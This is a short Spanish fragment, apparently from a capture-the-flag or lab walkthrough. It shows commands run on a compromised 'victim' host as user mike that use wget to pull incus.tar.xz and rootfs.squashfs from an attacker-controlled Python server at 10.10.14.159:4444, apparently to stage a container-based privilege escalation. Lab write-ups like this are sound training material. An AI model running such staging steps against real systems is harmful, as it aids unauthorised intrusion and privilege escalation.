 ```bash
# Desde la máquina víctima (usuario mike)
cd /               # Importante: Estar en un directorio con permisos adecuados
```

```bash
# Descargar incus.tar.xz desde el servidor Python
wget http://10.10.14.159:4444/incus.tar.xz
```

```bash
# Descargar rootfs.squashfs desde el mismo servidor
wget http://10.10.14.159:4444/rootfs.squashfs
```

![](../img/3ab6dce4fb0f813ee8c1181325a04abf.png)
